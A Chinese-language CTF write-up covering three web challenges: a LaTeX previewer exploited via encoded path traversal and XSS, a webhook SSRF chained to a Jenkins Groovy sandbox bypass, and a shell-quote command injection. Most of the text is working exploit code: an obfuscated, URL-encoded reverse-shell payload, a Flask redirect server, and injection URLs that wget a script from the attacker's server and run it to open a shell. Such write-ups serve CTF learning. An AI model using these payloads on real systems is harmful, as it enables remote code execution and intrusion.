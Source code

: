 

## easy latex

本地测试如下

![image-20231030124922921](web.assets/image-20231030124922921.png)

当前面加//或者\\\就能指定加载任意的vps了

![image-20231030124951409](web.assets/image-20231030124951409.png)

成功xss

![image-20231030125401364](web.assets/image-20231030125401364.png)

然后打下面这里。这里的req.params支持编码

![image-20231030131235558](web.assets/image-20231030131235558.png)

```
/share/%2e%2e%2f%70%72%65%76%69%65%77%3f%74%65%78%3d%61%77%64%61%64%61%77%64%26%74%68%65%6d%65%3d%2f%2f%34%37%2e%39%36%2e%34%31%2e%31%30%33%3a%38%38%38%33
```

最后的exp

```
const login = '/login';
const vip = '/vip';
const crypto = require('crypto')
const md5 = (data) => crypto.createHash('md5').update(data).digest('hex')
const loginreq = new URLSearchParams({
    username: '//c6dus196.requestrepo.com',
    password: md5(username)
});
const changshu = {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: loginreq,
};

async function evil() {
    try {
        const loginrep = await fetch(login, changshu);
        if (loginrep.ok) {
            const vipResponse = await fetch(vip, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded',
                },
                body: new URLSearchParams({ code: "awdawdwadwadwadwa" }),
                credentials: 'include',
            });
            // 在这里你可以处理vipResponse
        } else {
            // 在这里处理登录失败的情况
        }
    } catch (error) {
        console.error(error);
    }
}

evil();

```

![image-20231030131149093](web.assets/image-20231030131149093.png)











## hooks

找到了这篇文章

https://www.cidersecurity.io/blog/research/how-we-abused-repository-webhooks-to-access-internal-ci-systems-at-scale/

直接重定向到内网首页

```
from flask import Flask,redirect
app = Flask(__name__)
@app.route('/evil', methods=['POST'])
def evil():
    return redirect("http://124.70.33.170:8088/redirect?redirect_url=http://jenkins:8080/",code=302)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9999)
```

看到版本如下

![image-20231030012040010](web.assets/image-20231030012040010.png)

上网搜到这篇文章

https://www.cnblogs.com/cute-puli/p/15378440.html

直接弹shell

```
from flask import Flask,redirect
app = Flask(__name__)
@app.route('/evil', methods=['POST'])
def evil():
    return redirect("http://124.70.33.170:8088/redirect?redirect_url=%68%74%74%70%3a%2f%2f%6a%65%6e%6b%69%6e%73%3a%38%30%38%30%2f%73%65%63%75%72%69%74%79%52%65%61%6c%6d%2f%75%73%65%72%2f%61%64%6d%69%6e%2f%64%65%73%63%72%69%70%74%6f%72%42%79%4e%61%6d%65%2f%6f%72%67%2e%6a%65%6e%6b%69%6e%73%63%69%2e%70%6c%75%67%69%6e%73%2e%73%63%72%69%70%74%73%65%63%75%72%69%74%79%2e%73%61%6e%64%62%6f%78%2e%67%72%6f%6f%76%79%2e%53%65%63%75%72%65%47%72%6f%6f%76%79%53%63%72%69%70%74%2f%63%68%65%63%6b%53%63%72%69%70%74%3f%73%61%6e%64%62%6f%78%3d%74%72%75%65%26%76%61%6c%75%65%3d%25%37%30%25%37%35%25%36%32%25%36%63%25%36%39%25%36%33%25%32%30%25%36%33%25%36%63%25%36%31%25%37%33%25%37%33%25%32%30%25%37%38%25%32%30%25%37%62%25%30%61%25%32%30%25%32%30%25%37%30%25%37%35%25%36%32%25%36%63%25%36%39%25%36%33%25%32%30%25%37%38%25%32%38%25%32%39%25%37%62%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%32%25%36%32%25%36%31%25%37%33%25%36%38%25%32%30%25%32%64%25%36%33%25%32%30%25%37%62%25%36%35%25%36%33%25%36%38%25%36%66%25%32%63%25%35%39%25%36%64%25%34%36%25%37%61%25%36%31%25%34%33%25%34%31%25%37%34%25%36%31%25%35%33%25%34%31%25%32%62%25%34%61%25%36%39%25%34%31%25%37%36%25%35%61%25%34%37%25%35%36%25%33%32%25%34%63%25%33%33%25%35%32%25%36%61%25%36%33%25%34%33%25%33%38%25%33%30%25%34%65%25%37%39%25%33%34%25%33%35%25%34%65%25%36%39%25%33%34%25%33%30%25%34%64%25%35%33%25%33%34%25%37%38%25%34%64%25%34%34%25%34%64%25%37%36%25%34%65%25%34%34%25%35%31%25%33%30%25%34%65%25%34%33%25%34%31%25%37%37%25%35%30%25%36%39%25%35%39%25%37%38%25%37%64%25%37%63%25%37%62%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%63%25%32%64%25%36%34%25%37%64%25%37%63%25%37%62%25%36%32%25%36%31%25%37%33%25%36%38%25%32%63%25%32%64%25%36%39%25%37%64%25%32%32%25%32%65%25%36%35%25%37%38%25%36%35%25%36%33%25%37%35%25%37%34%25%36%35%25%32%38%25%32%39%25%30%61%25%32%30%25%32%30%25%37%64%25%30%61%25%37%64",code=302)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9999)
```

![image-20231030010716018](web.assets/image-20231030010716018.png)





## ~Ave Mujica's Masquerade~

下面这里存在漏洞

![image-20231030020405926](web.assets/image-20231030020405926.png)

参考这个文章打即可

https://wh0.github.io/2021/10/28/shell-quote-rce-exploiting.html

payload如下

```
http://124.70.33.170:24001/checker?url="127.0.0.0:`:`bash$IFS$9a.sh``:`

http://124.70.33.170:24001/checker?url="127.0.0.0:`:`wget$IFS$947.96.41.103:8889/a.sh``:`
```

成功弹shell

![image-20231030020321830](web.assets/image-20231030020321830.png)